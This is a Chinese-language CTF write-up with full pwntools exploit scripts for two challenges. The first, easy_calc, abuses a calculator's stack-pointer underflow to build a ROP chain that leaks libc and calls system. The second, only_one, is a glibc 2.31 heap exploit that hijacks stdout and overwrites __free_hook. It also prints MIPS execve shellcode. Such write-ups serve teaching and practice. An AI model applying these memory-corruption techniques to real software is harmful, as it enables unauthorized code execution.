决赛依然只出了一道easy_calc，但是做的时候思路没有很清晰，所以花了比较久时间才出

后来剩一个小时看了眼only_one，大致猜到用初赛一样的houseofbotcake去打，劫持stdout用来泄漏，可惜一个小时几乎没可能做出来

另外一道mips，当时想到可以用pwntools的shellcraft去构造shellcode，但是忘记了异构题有些不开nx，可以直接打ret2shellcode。有点思维僵化了，当时在想mips怎么打rop
```python
In [1]: from pwn import *

In [2]: context(arch='mips', log_level='debug')

In [3]: shellcraft.mips.execve('/bin/sh', 0, 0)
Out[3]: "    /* execve(path='/bin/sh', argv=0, envp=0) */\n    /* push b'/bin/sh\\x00' */\n    li $t1, 0x6e69622f\n    sw $t1, -8($sp)\n    li $t9, ~0x68732f\n    not $t1, $t9\n    sw $t1, -4($sp)\n    addiu $sp, $sp, -8\n    add $a0, $sp, $0 /* mov $a0, $sp */\n    slti $a1, $zero, 0xFFFF /* $a1 = 0 */\n    slti $a2, $zero, 0xFFFF /* $a2 = 0 */\n    /* call execve() */\n    ori $v0, $zero, SYS_execve\n    syscall 0x40404\n"
```

# easy_calc

首先介绍一下逆向过程，关键结构体和关键函数


由push，pop，pushsym，popsym函数很容易还原出上面的结构体






有的时候还原结构体和看懂函数像是先有鸡还是先有蛋的问题，看懂函数需要结构体，但是结构体需要看懂函数
不过在这题还好，因为push，pop都是大家很熟悉的操作了，不需要结构体也能看懂

出题人给了一个`2*(3+1)`的示例，我试了下发现结果是4，于是好奇的跟了下，确实有bug，可惜并不是关键漏洞

这里我感觉不止一个问题，我就只说导致这个bug的问题了，正确的程序应该在遇到`)`的时候，处理掉括号中的所有内容，直到遇到`(`为止，然后把`(`给pop出来，这也是程序本意

但是真正遇到`(`的时候，程序会陷在如图的`while(1)`大循环里面，此时`v16`等于当前正在处理的sym，也就是`)`。而`next_sym`是由上一次`peeksym`得到的，当其为`(`的时候，在这个大循环里面，程序会不停的走最下面的`pop_sym`分支，而关键的变量依然不会得到更新，所以就陷入死循环，直到`sym_stack`为空为止

但是很可惜并不是关键漏洞，关键漏洞出在pop函数和push函数，图已经在上面放过了，就不再放一次了
pop函数虽然有对`num_sp`进行检查，但是无论检查是否通过，`num_sp`都会`--`。更关键的是，没有进行错误处理，导致外部调用函数会认为pop函数成功返回，继续使用栈上的变量(而且在pop前固定被清0)
而push函数中对`num_sp`的检查则是将`num_sp`强转为int，再去和`0x3F`比较，而没有考虑`num_sp`小于`0`的情况

这给了我们一种办法，只写入一个数字和一个符号，想办法让他进入计算的分支，执行连续的两次pop，一个popsym，并将计算结果push回去。由于只有一个数字，栈指针为1，两次pop会让栈指针指向-1，而最后的push会把计算结果放到-1的位置，`就可以控制当前函数的返回地址了

实际的构造会更复杂一些，这部分花了我很久时间，一直没找到构造rop链和覆写-1共存的办法。后来更仔细的逆向分析，加上乱猜几下，就构造成功了😂
```python
from pwn import *

context(
    terminal=['tmux', 'split', '-h'],
    os='linux',
    arch='amd64',
    log_level='debug',
)


def debug(io):
    gdb.attach(
        io,
        """
b *0x4017CA
b *0x402325
""",
    )


def wrap(num: int) -> bytes:
    return (str(num)).encode()


io = process('./pwn')
elf = ELF('./pwn')
debug(io)
rdi = 0x402330


def build_payload(one, two, three, four):
    payload = b''
    payload += wrap(one) + b'++'
    payload += wrap(two) + b'*(' + (wrap(three + four)) + b'-' + wrap(four) + b')'
    return payload


payload = build_payload(rdi, elf.got['puts'], elf.plt['puts'], 0x401531)
io.sendlineafter(b'input:\n', payload)
io.recvuntil(b'4198596\n')
libc = u64(io.recv(0x6).ljust(0x8, b'\x00')) - 0x84420
print(hex(libc))

sh = libc + 0x1B45BD
system = libc + 0x522AB
payload = build_payload(rdi, sh, system, 0x0)
io.sendlineafter(b'input:\n', payload)

io.interactive()
```

# only_one

程序允许申请释放堆块，申请功能最多执行0x14次，并且限制申请size小于0x100，并且没有edit功能只有在申请时才能写入，释放的时候有清理指针，没有uaf。而且没有show函数。但是给了唯一一次的不清理指针的free。

> libc版本为2.31

思路是通过不清理指针的free构造unsortedbin和tcachebin的重叠，覆写unsortedbin的libc指针到stdout(1/16概率)，随后利用对stdout的控制进行libc指针泄漏。利用前面uaf构造好的伪堆块再执行一次tcachebin attack，这次把__free_hook给写为system即可，然后释放一个内容为/bin/sh的堆块获取shell

我认为有两个难点，一个是unsortedbin和tcachebin的重叠，一个是提前布局好后续的伪堆块。

由于需要在tcachebin->fd的位置留下unsortedbin的指针，我先想到的是先把堆块释放进tcachebin，再释放这个堆块至unsortedbin，但是由于tcachebin存在对double free的检查，在将同个堆块释放进unsortedbin时会有double free检查失败。看到其他队伍的解法是切分unsortedbin来覆写tcachebin的指针，看到就恍然大悟了😂

另外一个点在于第一次的uaf要拿来打stdout，那怎么为第二次的tcachebin做准备呢。可以看看下面我如何在重叠时继续构造下一步可利用的uaf


这里时拆分一部分unsortedbin，先是把tcachebin的fd覆写为stdout，为泄漏做准备。另外是在等会拿出`tcachebins[0xf0][0/7]`的时候可以去篡改下一个堆块的大小，主要是unsortedbin不好直接利用，毕竟他不是像tcachebin那样的大链表，也不会被smash into tcachebin。


所以这里的想法就是把这个堆块先拿出来，篡改size后再释放，就可以再构造overlapping


这里在拿出0xf0的tcachebin的时候顺便篡改size，构造了overlapping。可以看到`0x55555555eb10`这个堆块是我们申请出来的堆块


随后就很简单了不再赘述，只需要利用这个overlapping来再打一次tcachebin attack劫持__free_hook就行

```python
from pwn import *

context(
    terminal=['kitty'],
    os='linux',
    arch='amd64',
    log_level='info',
)


def debug(io):
    gdb.attach(
        io,
        """
b add
b dele
""",
    )


io = process('./pwn')
idx = 0


def add(size: int, cont: bytes = b'a'):
    global idx
    log.info('add 0x%x chunk, size as 0x%x', idx, size)
    idx += 1
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'Size: ', (str(size).encode()))
    io.sendafter(b'Content: ', cont)


def delete(idx: int):
    log.info('delete 0x%x chunk', idx)
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'Index: ', (str(idx).encode()))


def only_one(idx: int):
    log.info('use only_one to delete %d chunk', idx)
    io.sendlineafter(b'> ', b'999')
    io.sendlineafter(b'you: ', (str(idx).encode()))


for _ in range(0x9):
    add(0xE0)
add(0x20)
for i in range(0x7):
    delete(i)

only_one(8)
delete(7)
add(0xE0)
delete(8)
add(0x60)
add(0x70)

add(0x70, b'\xa0\x06\xfc')
add(0x60)

fake_chunk = flat({0x78: 0xA1}, filler=b'\x00')
add(0xE0, fake_chunk)

fake_stdout = flat(
    0xFBAD1800,
    0x0,
    0x0,
    0x0,
    b'\x00',
)

add(0xE0, fake_stdout)
io.recvuntil(b'\x00' * 8)
libc = u64(io.recv(0x6).ljust(8, b'\x00')) - 0x1EC980
log.success('libc_base: ' + hex(libc))

add(0x20)
delete(0x11)
delete(0x9)
delete(0xE)

fake_chunk = flat(
    {0x0: b'/bin/sh', 0x60: 0x70, 0x68: 0x31, 0x70: (libc + 0x1EEE48)},
    filler=b'\x00',
)
add(0x90, fake_chunk)
add(0x20)
add(0x20, p64(libc + 0x52290))
delete(0x12)

io.interactive()
```
